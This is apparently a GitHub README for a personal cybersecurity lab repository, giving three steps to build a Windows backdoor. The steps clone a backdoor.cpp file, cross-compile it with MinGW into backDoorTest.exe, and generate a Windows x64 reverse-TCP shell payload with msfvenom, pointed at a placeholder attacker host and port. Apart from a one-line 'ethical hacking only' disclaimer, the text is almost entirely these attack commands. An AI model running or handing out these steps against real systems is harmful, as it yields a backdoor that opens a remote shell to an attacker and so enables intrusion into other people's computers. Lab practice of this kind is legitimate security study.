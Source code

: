 # cybersecurity
Cybersecurity Lab Experiences by Fabio Felgueiras

Use this for ethical hacking only 

1- Download
    git clone https://github.com/Blive77/cybersecurity/blob/main/backdoor.cpp
    
2- Compile
    x86_64-w64-mingw32-g++ --static -o backDoorTest.exe backdoor.cpp -fpermissive -lws2_32
    
3- Create the Payload with msfvenom in Kali linux
    msfvenom -p windows/x64/shell_reverse_tcp lhost="Host IP" lport="Host Port" -f raw > load.bin
    
    
